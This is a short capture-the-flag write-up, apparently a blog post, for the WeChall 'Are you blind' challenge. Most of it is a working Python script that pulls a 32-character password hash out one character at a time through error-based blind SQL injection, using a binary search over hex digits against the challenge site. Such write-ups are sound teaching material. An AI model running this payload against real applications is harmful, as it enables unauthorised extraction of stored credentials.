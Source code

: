 ```yaml
---
title: Are your blind
author: rk700
layout: post
categories:
  - writeup
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/Mawekl/are\_you\_blind/index.php][1]  
这道题还是盲注，32位的hash，128次跑完。这里我们用报错的方法来判断

下面是python代码

{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2

def makePayload(statement):
    return "' or if(substring(password,%d,1)%s'%s',3,(select 1 union select 2))=3-- " % (statement[0], statement[1], statement[2])
    
def checkResponse(response):
    return response.find("Database error") == -1

def doAssert(statement):
    url = "http://www.wechall.net/challenge/Mawekl/are_you_blind/index.php"
    values = {'injection':makePayload(statement),'inject':'Inject'}
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7374566-11403-7iblKzppaCoukyl1')
    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)
 
if __name__ == "__main__":
    alphalist = "0123456789ABCDEF"
    result = []
    for idx in range(1,33):
        start = 0
        end = 16 #[start, end)
        while (start < end):
            #print("[%d, %d)" % (start, end))
            if (end - start == 1):
                result.append(alphalist[start])
                print alphalist[start]
                break
            else:
                middle = (start + end)/2
                if(doAssert([idx, '<', alphalist[middle]])):
                    end = middle
                else:
                    start = middle
    print ''.join(result)
{% endhighlight %}

 [1]: http://www.wechall.net/challenge/Mawekl/are_you_blind/index.php